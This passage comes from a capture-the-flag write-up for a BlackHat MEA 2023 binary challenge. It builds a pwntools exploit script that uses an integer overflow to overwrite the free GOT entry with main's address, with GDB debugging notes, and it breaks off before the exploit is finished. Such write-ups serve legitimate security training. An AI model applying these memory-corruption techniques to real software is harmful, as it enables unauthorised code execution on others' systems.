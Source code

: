 Now, I ran this script using the GDB and set the breakpoints at `free` and `main` to check the values, the exploit.py script becomes:

```python
#!/usr/bin/env python3

from pwn import *

def overflow(addr: int):
    return str((addr << 32) + 1).encode()

context.terminal = ['tmux', 'splitw', '-h']
elf = context.binary = ELF("./profile")
# io = process()

gdbscript = '''
init-pwndbg
b *main
b *free
continue
'''
io = gdb.debug(['./profile'], gdbscript=gdbscript)

io.sendlineafter(b"Age", overflow(elf.got.free))
io.sendlineafter(b'Name: ', p32(0x41424344))
```

Now, when running this, i got the following output

![Alt text](/static/writeups/blackhatmea23-quals/image-2.png)

> One thing that I noticed, was that each address was of 3-bytes, (Notice `RSP` i.e. `0x401461`), so for each of the address, I did `[:-1]` to remove the last byte. This will allow us to write the address correctly.

Now, since we know that our integer overflow is allowing us to arbitrary overwrite free, instead of `0x41424344`, let's overwrite it to main, and see if we can get an `N` number of writes.

```python
## Keeping the rest of the exploit same:
io.sendlineafter(b'Name: ', p32(elf.sym.main))
```

![Alt text](/static/writeups/blackhatmea23-quals/image-3.png)

We got an error, `Invalid address 0xa0040138c`. The problem here is, as we already noticed before is that each address is of `3 bytes`, (once again noticing the: `RSP  0x7ffd4060db58 —▸ 0x401461 (main+213)`). And the main address is: `0xa0040138c`. If we simply print out `elf.sym.main`, we get:

```python
log.info("Main Address: %#x" % elf.sym.main)
```

![Alt text](/static/writeups/blackhatmea23-quals/image-4.png)
